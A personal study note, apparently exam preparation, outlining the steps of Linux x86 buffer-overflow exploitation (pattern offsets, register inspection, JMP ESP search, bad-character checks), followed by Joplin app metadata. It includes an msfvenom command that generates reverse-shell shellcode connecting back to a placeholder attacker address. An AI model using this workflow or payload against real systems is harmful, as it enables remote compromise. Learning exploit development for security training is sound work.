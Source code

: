 Linux Buffer Overflows

Use EDB as the debugger

Similar to the Revision, First look for the areas of where the overflow affects

> msf-pattern_create -l &lt;length&gt;

Look at the values and positions of the registers; depending on what are the register values, we take the appropriate action

- By default, we will want to use the stack if we can manipulate the stack; We can then find the "JMP ESP" Instruction
- If we are not manipulating the stack but am manipulating somewhere else pointed by other registers (E.g. EAX), then we need to setup two stages of execution, the first stage adjust the register values to point to where we want it to be pointed "ADD EAX, 12" and then do the appropriate jump instruction "JMP EAX"

> msf-nasm_shell

We then check for bad chars for the shellcode, 

After that we need to set the return address to jump to the instructions of the first stage, which should be in the stack (JMP ESP)

- Use EDB's OpcodeSearcher plugin

Set the breakpoint at the JMP ESP instruction and test (if necessary)

Then we get the shellcode using msfvenom

> msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=&lt;KALI IP&gt; LPORT=443 -b "\\x&lt;badchars&gt;" -f py -v shellcode

id: d6bd606a6fe84a1089b8a515320ff3f5
parent_id: da1dcf54b1724b1fb102391a388d0c06
created_time: 2022-01-26T14:46:21.432Z
updated_time: 2022-01-26T15:26:51.950Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-26T14:46:21.432Z
user_updated_time: 2022-01-26T15:26:51.950Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1